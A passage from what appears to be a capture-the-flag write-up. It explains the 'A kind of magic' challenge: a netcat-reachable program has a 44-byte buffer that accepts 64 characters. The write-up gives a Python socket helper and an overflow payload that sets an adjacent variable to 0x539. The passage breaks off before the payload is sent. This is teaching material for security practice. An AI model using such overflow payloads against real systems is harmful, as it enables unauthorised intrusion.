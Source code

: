 <img src="just not my type.png" />

Done! We have our flag "`flag{no_way!_i_took_the_flag_out_of_the_source_before_giving_it_to_you_how_is_this_possible}`"

## A kind of magic

**Challenge**

[akindofmagic](./akindofmagic)

**WriteUp**

We have access to a netcat connection and the program it runs on our connection.

By making a reverse of the program we can your that we can enter up to 64 characters while our array has only 44, which means that we can use this to overflow and override another variable and just below that we have a variable that must be equal to 0x539.

We can send 44 `a` as a pattern and the value we want in the variable:
```py
import socket
 
class Netcat:
    def __init__(self, ip, port):

        self.buff = ""
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.socket.connect((ip, port))

    def read(self, length = 1024):
        return self.socket.recv(length)
 
    def write(self, data):
        self.socket.send(data)
    
    def close(self):
        self.socket.close()

test = b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x00\x39\x05\x00\x00\x00\x00\n"


```